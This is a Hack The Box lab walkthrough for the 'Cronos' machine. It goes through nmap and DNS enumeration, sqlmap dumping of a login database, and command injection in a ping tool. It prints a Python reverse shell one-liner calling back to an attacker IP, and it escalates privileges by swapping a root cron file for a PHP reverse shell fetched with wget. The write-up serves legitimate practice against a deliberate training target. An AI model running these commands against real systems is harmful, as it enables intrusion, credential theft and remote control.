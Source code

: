 ```yaml
---
description: https://app.hackthebox.com/machines/11
cover: ../../../.gitbook/assets/Cronos.png
coverY: -58.937823834196905
---
```


# Cronos

## Nmap

```
sudo nmap 10.10.10.13 -p- -sS -sV 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Note:** Add `10.10.10.13 cronos.htb` to `/etc/hosts`. Also add 10.10.10.13 as an additional DNS server on the attacking system.

### DNS

To start we perform some basic enumeration on `DNS` against the target system. Using dnsenum we are able to enumerate the `admin.cronos.htb` sub domain which will be added to our hosts file.

```
dnsenum --dnsserver '10.10.10.13' --enum 'cronos.htb'
```

![](<../../../.gitbook/assets/image (21) (4).png>)

### Cronos.htb

Checkout out the root page for `http://cronos.htb` we are taken to `/index.php`. I was unable to pull any further interesting pages or directories from this website.

![](<../../../.gitbook/assets/image (12) (5).png>)

`Feroxbuster` turning up very few results...

![](<../../../.gitbook/assets/image (18) (1).png>)

### admin.cronos.htb

We know that the sub domain admin.cronos.htb exists and browse to it. We are presented with a logon page. Running ZAProxy in the background we are able to identify a `SQL` injection point on the login page as shown below.

![](<../../../.gitbook/assets/image (67).png>)

Details regarding the `SQL` injection point.

![](<../../../.gitbook/assets/image (1) (4) (1).png>)

### SQLmap

Using `SQLmap` we are able to pull relevant information.

```
sqlmap -u 'http://admin.cronos.htb/' --batch --forms --tables
```

After running the above command `SQLmap` identifies the database "admin". Using the command below we are able to dump discovered information from the "users" table.

```
sqlmap -u 'http://admin.cronos.htb/' --batch --forms -T users -D admin --dump 
```

![](<../../../.gitbook/assets/image (12) (1) (1).png>)

I was unable to crack the hash using the rockyou.txt wordlist. However, searhing online we find a clear text password for the related MD5 hash.

### Hash lookup

![](<../../../.gitbook/assets/image (23) (2) (1).png>)

### Net Tool v0.1

Using the credentials on the login page we are then presented with `Net Tool v0.1`.

![](<../../../.gitbook/assets/image (16) (2).png>)

Performing a `ping` request and capturing the POST request in `ZAProxy` we see where the command parameter is set.

![](<../../../.gitbook/assets/image (11) (2).png>)

A quick check with `cat` on `/etc/passwd` shows we are able to alter what command the target system executes.

![](<../../../.gitbook/assets/image (9) (3).png>)

Contents of `/etc/passwd`.

![](<../../../.gitbook/assets/image (127) (3).png>)

### Shell as www-data

From here we will build a Python reverse shell and run it in ZAProxy to obtain a reverse shell.

```
export RHOST="10.10.14.6";export RPORT=80;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

![](<../../../.gitbook/assets/image (126) (3).png>)

Which soon connects to our listener.

![](<../../../.gitbook/assets/image (118).png>)

### User.txt

We can then grab the user flag from `/home/noulis/user.txt`.

![](<../../../.gitbook/assets/image (125) (1).png>)

### Enumeration

Running `linpeas.sh` for enumeration we identify the cron job against Laravel artisan running every minute as the **root** user.

![](<../../../.gitbook/assets/image (120).png>)

Browsing to `/var/www/laravel` we see we have full permissions as www-data over the artisan file.

![](<../../../.gitbook/assets/image (124).png>)

### Privilege Escalation

Given the full permissions we can create a `PHP` reverse shell on our attacking system. Name it artisan and transfer over to the target system. RevShells was utilized to create the PHP monkey reverse shell.

**RevShells:** [https://www.revshells.com/](https://www.revshells.com/)

![](<../../../.gitbook/assets/image (117).png>)

Remove the current artisan file and upload the reverse shell file.

```
rm artisan
wget http://10.10.14.6:8000/artisan
```

![](<../../../.gitbook/assets/image (121) (3).png>)

### Shell as root

After the file has been uploaded. Start a `netcat` listener and wait a minute or two for it to trigger a reverse shell.

![](<../../../.gitbook/assets/image (119).png>)
